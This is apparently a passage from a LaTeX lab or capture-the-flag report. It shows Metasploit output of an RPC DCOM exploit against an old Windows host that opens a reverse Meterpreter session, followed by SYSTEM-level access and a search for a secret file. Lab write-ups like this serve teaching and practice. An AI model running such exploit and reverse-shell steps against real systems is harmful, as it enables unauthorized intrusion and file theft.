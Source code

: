 \par \begin{lstlisting}[language=sh,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily, breaklines=true, breakautoindent=true, breakindent=4em]
[*] Started reverse handler on 10.11.12.29:4444 
[*] Trying target Windows NT SP3-6a/2000/XP/2003 Universal...
[*] Binding to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:192.168.233.106[135] ...
[*] Bound to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:192.168.233.106[135] ...
[*] Sending exploit ...
[*] Sending stage (752128 bytes) to 192.168.233.106
[*] Meterpreter session 1 opened (10.11.12.29:4444 -> 192.168.233.106:1183) at 2014-03-04 21:13:04 +0100
\end{lstlisting}
\par Now we can use meterpreter command now. We type \textit{getuid} and get \lstinline{NT AUTHORITY\SYSTEM}, which means that we've got the root access.
\par After that, we use the command \textit{search -f secret.txt} and found the file. We opened the file and it showed that the code needed to be included in the report is COUDHc7QeD6sk.




